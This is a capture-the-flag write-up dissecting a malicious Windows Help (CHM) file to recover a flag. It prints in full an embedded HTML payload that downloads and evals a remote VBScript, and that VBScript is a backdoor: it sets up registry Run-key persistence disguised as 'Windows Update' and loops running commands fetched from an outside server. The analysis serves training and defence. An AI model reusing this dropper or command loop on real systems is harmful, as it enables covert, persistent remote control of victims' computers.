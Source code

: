 # CHM

> **Challenge Description:** Help me with this Windows Help file. Our anti-virus has detected this file as a malware. Seriously, it's just a Windows Help file. Analyze and find the flag.
>
> **Flag Format:** `ihack{MD5}`

### Solution

CHM files can be opened and extracted using `hh.exe` in Windows for legitimate use. In this case, extract all the components from the CHM file using `7z`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/CHM]
└─$ 7z e chm.chm 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs Intel(R) Core(TM) i7-9750H CPU @ 2.60GHz (906EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10781 bytes (11 KiB)

Extracting archive: chm.chm
--
Path = chm.chm
Type = Chm
Physical Size = 10781

Would you like to replace the existing file:
  Path:     ./Property
  Size:     4 bytes (1 KiB)
  Modified: 2022-12-01 00:52:05
with the file from archive:
  Path:     $WWAssociativeLinks/Property
  Size:     4 bytes (1 KiB)
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? u

Everything is Ok                     

Folders: 2
Files: 12
Size:       11892
Compressed: 10781
```

The extracted `version.html` contains a embedded payload that references a `.vbs` file from a remote URL.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/CHM]
└─$ cat version.html                                               
<body>
    <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=',cmd.exe,/c copy /Y C:\Windows\system32\rundll32.exe %TEMP%\out.exe > nul && %TEMP%\out.exe javascript:"\..\mshtml RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://139.59.122.20/version.vbs",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im out.exe",0,true);}'>
        <PARAM name="Item2" value="273,1,1">
      </OBJECT>
      <SCRIPT>
        x.Click();
      </SCRIPT> 
</body>
</html>  
```

Continue analyzing `version.vbs` to retrieve the 2nd portion of the flag. Also, notice that `version.txt` is fetched remotely.

```
Option Explicit
On Error Resume Next
Const tail = "7866c99c63a26b4886"
Const test = "122.20/"
Set oFileSystem = CreateObject("Scripting.FileSystemObject")
Set WshShell = CreateObject("WScript.Shell")
Const close = "}"
Const versionfile = "version.txt"
app_data = WshShell.ExpandEnvironmentStrings("%APPDATA%")
full_install = app_data & "\ihack.vbs"
If Not oFileSystem.FileExists(full_install) Then
        oFileSystem.CopyFile WScript.ScriptFullName, full_install
        WshShell.RegWrite "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows Update", full_install, "REG_SZ"
        Set rs_map = oFileSystem.GetFile(full_install)
        rs_map.Attributes = 2
End If
Const server = "http://139.59." & test & versionfile
done = False
Do Until done
        Set XMLHTTP = CreateObject("MSXML2.XMLHTTP.3.0")
        XMLHTTP.open "GET", server, False
        XMLHTTP.send
        command = XMLHTTP.responseText
        WshShell.Run "cmd /c " & command, 0, True
        MsgBox("Your computer has been compromised by iHack team. You can exit this msgbox in your Task Manager.")
        If InStr(command, "iha") Then
                dim sec = command & tail & close
        Else InStr(command, "EXIT") Then
                done = True
        End If
        If InStr(command, "REMOVE") Then
                WshShell.RegDelete "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows Update"
                Set delete_me = oFileSystem.CreateTextFile(oFileSystem.GetSpecialFolder(2) & "\romcs.bat")
                delete_me.WriteLine("@echo off")
                delete_me.WriteLine("timeout 10")
                delete_me.Close()
                WshShell.Run oFileSystem.GetSpecialFolder(2) & "\romcs.bat"
                done = True
        Else
                WshShell.Run "cmd /c " & command, 0, True
        End If
        WScript.Sleep(15000)
Loop
```

`version.txt` contains the first portion of the flag.

```
ipconfig
net user
arp -a
net localgroup administrators
ihack{6e5e4d1b1805aa
```

**Flag:** `ihack{6e5e4d1b1805aa7866c99c63a26b4886}`
